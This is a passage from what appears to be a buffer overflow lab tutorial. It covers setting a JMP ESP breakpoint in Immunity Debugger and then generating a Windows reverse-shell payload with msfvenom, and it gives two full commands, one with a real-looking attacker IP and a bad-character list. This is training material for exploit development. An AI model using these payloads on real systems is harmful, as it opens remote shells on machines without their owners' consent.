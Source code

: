 * Save the file&#x20;
* Go back to Immunity
* Copy the address you are using&#x20;

<figure><img src="../.gitbook/assets/image (19) (1).png" alt=""><figcaption></figcaption></figure>

* Select the circled button and paste in the value and hit enter
* Right-click JMP ESP > Breakpoint > Toggle
* Run the exploit again
* You will notice that a breakpoint was triggered upon execution
* <mark style="color:yellow;">NOTE: If this is not behaving correctly, restart the program and run through the steps once more</mark>

## Generate Payload

We will utilize msfvenom

* Be sure to utilize the correct architecture (Windows or Linux depending on your target)
* Use your VPN IP address for the LHOST
* Utilize the bad chars for EXITFUNC

```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.6.111.208 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c
```


